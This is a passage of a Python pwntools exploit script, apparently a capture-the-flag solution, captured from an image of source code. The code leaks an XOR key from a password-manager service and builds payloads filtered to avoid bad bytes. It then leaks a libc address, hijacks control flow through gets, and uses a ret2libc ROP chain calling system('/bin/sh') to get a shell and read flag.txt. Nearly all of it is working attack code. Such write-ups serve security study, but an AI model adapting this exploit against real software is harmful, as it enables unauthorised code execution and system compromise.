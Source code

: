 ```python
    password = r.recvline()
    return hostname, password

def main():

    r = conn()
    
    add_entry(r,b"A" * 255, b"B" * 255)
    view_entry(r,0)

    hostname, password = view_entry(r,0)
    key = xor(password, b"B" * 255)[:64]

    log.success(f"key: {key.hex()}")

    # insert a password 255 chars long that xored with the key results in a \x00 at position 3
    payload =  p16(0x7F70) + b"\x00"*253
    payload = xor(payload, key)[:3] + b"a"*252
    assert b"\x00" not in payload
    assert b"\x0a" not in payload
    assert b"\x0d" not in payload
    assert b"\x0b" not in payload
    assert b"\x0c" not in payload
    assert b"\x20" not in payload
    assert b"\x09" not in payload
    print(payload)
    add_entry(r, b"A" * 128 + b":", payload)
    hostname, password = view_entry(r, 1)
    r.sendlineafter(b"> ", b"2")
    r.sendlineafter(b"Index: ", str(1).encode("ascii"))
    r.recvuntil(b"Exit\n")
    libc.address = u64(r.recv(6) + b"\x00"*2) - 0x80e50
    log.warning(f"libc: {hex(libc.address)}")

    payload =  b"G"*32 + p64(libc.sym.gets+13)[:6] + b"\x00"*217
    payload = xor(payload, key)[:39] + b"a"*216
    assert b"\x00" not in payload
    assert b"\x0a" not in payload
    assert b"\x0d" not in payload
    assert b"\x0b" not in payload
    assert b"\x0c" not in payload
    assert b"\x20" not in payload
    assert b"\x09" not in payload
    add_entry(r, b"A" * 128 + b":", payload)
    hostname, password = view_entry(r, 2)

    sleep(0.1)
    r.sendline(b"2\n2")
    sleep(0.1)

    POP_RDI = libc.address + 0x000000000002a3e5
    RET = libc.address + 0x00000000000f410b
    BINSH = libc.address + 0x1d8678
    ret2libc = b"A"*28 + flat(POP_RDI, BINSH, libc.sym.system)
    r.sendline(ret2libc)
    sleep(0.1)
    r.sendline("ls")
    r.sendline("cat flag.txt")
    
    r.interactive()


if __name__ == "__main__":
```